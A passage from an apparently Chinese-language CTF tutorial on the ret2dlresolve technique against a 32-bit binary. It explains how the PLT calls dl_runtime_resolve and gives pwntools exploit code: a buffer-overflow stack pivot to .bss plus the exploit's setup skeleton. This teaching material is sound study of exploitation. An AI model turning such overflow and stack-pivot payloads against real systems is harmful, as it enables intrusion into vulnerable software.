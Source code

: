 ```python

leak_info('base_addr', base_addr)

payload = b'a'*0x108 + p32(base_addr-4) + p32(elf.plt['read']) + p32(leave_ret) + p32(0) + p32(base_addr) + p32(0x200)
sh.send(payload)

payload = p32(elf.plt['read']) + p32(0xdeadbeaf) + p32(0) + p32(bss + 0x200) + p32(0x200)
sh.send(payload)
```

运行上面的`exp`后，栈会被迁移到`bss`上，并再次执行一个新的`read`函数。这个`read`函数是我们最终要执行的函数，在一切就绪时，我们会把`read`函数改为`system`等任何我们想要的函数。现在，由于程序没有任何函数给我们使用，我们假设执行`read`。

## 0x02. 模拟plt表的绑定过程

观察`plt`表，实际上为如下两条指令：

```c
.plt:08049056                 push    8
.plt:0804905B                 jmp     sub_8049030
```

可以看到，程序先往栈上`push`了一个`8`，随后跳转到了一个函数，而该函数则为`dl_runtime_resolve`的函数。那么，本步骤中，我们模拟`plt`表的绑定过程，只需要往栈上手动写一个`8`，随后跳转到该函数即可（`0x8049030`）。

目前的`exp`如下：

```python
from pwn import *
from LibcSearcher import *
from ae64 import AE64
from ctypes import cdll

filename = './pwn'
context.arch='i386'
context.log_level = "debug"
context.terminal = ['tmux', 'neww']
local = 1
all_logs = []
elf = ELF(filename)
libc = elf.libc

if local:
    sh = process(filename)
else:
    sh = remote('node4.buuoj.cn', )

def debug(params=''):
    for an_log in all_logs:
        success(an_log)
    pid = util.proc.pidof(sh)[0]
    gdb.attach(pid, params)
    pause()

def leak_info(name, addr):
    output_log = '{} => {}'.format(name, hex(addr))
    all_logs.append(output_log)
    success(output_log)

bss = elf.bss()
base_addr = bss + 0x800
leave_ret = 0x0804915F
start_resolve = 0x8049030

leak_info('base_addr', base_addr)
```